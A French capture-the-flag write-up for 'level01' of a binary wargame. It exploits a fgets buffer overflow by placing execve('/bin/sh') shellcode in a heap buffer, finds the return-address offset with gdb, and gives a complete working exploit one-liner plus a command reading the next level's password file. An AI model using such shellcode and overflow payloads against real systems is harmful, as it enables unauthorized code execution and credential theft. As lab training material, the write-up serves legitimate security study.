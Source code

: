 ## level01
- En regardant le [code source désassemblé](/level01/source.c) :
    - cette fois-ci, on n'a pas d'appel à `system`. Donc il faudra injecter un [*shellcode*](https://en.wikipedia.org/wiki/Shellcode) pour obtenir le flag.
    - les deux appels à [`fgets`](https://linux.die.net/man/3/fgets) ont un paramètre *size* plus grand que les tableaux de caractères utilisés. Donc on pourra réécrire la mémoire avec un *buffer overflow*.
- Comme le binaire demande deux entrées (l'identifiant, puis le mot de passe), notre payload sera en deux parties :
    - Comme `a_user_name` est stocké dans la *heap*, son adresse sera fixe à chaque exécution. Il sera donc plus facile d'y placer notre [*shellcode*](http://shell-storm.org/shellcode/files/shellcode-575.php) (qui fait 21 octets).
        - Notre *payload* devra commencer par `dat_wil`, pour satisfaire à la condition du `strncmp`. Puis 227 octets de padding (256 - 8 - 21). Et on finit avec le *shellcode*.
        - D'où `"dat_wil" + "\x90"*227 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`
    - `a_user_pass` est placé dans la *stack*, ce qui est plus pratique pour écraser l'adresse de retour du `main`.
    Notre second *payload* profitera du second `fgets` pour écraser l'adresse de retour de la fonction par l'adresse de la variable `a_user_name` (dans laquelle nous retrouverons notre *shellcode*).
        - `objdump -t level01` nous donne l'adresse de `a_user_name` : `0804a040` (soit `\x40\xa0\x04\x08` en *little-endian*).
        - Pour déterminer le padding nécessaire, nous allons procéder expérimentalement :
            ```
            (gdb) r             
            The program being debugged has been started already.
            Start it from the beginning? (y or n) y
            Starting program: /home/users/level01/level01 
            ********* ADMIN LOGIN PROMPT *********
            Enter Username: dat_wil 
            verifying username....

            Enter Password: 
            AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
            nope, incorrect password...


            Program received signal SIGSEGV, Segmentation fault.
            0x55555555 in ?? ()
            (gdb) info registers
            eax            0x1	1
            ecx            0xffffffff	-1
            edx            0xf7fd08b8	-134412104
            ebx            0x52525252	1381126738
            esp            0xffffdc30	0xffffdc30
            ebp            0x54545454	0x54545454
            esi            0x0	0
            edi            0x53535353	1397969747
            eip            0x55555555	0x55555555
            eflags         0x10282	[ SF IF RF ]
            cs             0x23	35
            ss             0x2b	43
            ds             0x2b	43
            es             0x2b	43
            fs             0x0	0
            gs             0x63	99
            ```
        - On voit qu'au crash le le registre `eip` a la valeur `0x55555555` (soit `UUUU`), ce qui veut dire que `eip` est écrasé à partir du 81e caractère. Il nous faudra donc 80 caractères de padding.
        - D'où `"\x90"*80 + "\x40\xa0\x04\x08"`
- `(python -c 'print "dat_wil" + "\x90"*227 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*80 + "\x40\xa0\x04\x08"'; cat -) | ./level01` nous permet bien de lancer un *shell* en tant que `level02`. `cat /home/users/level02/.pass` nous donne le *flag*.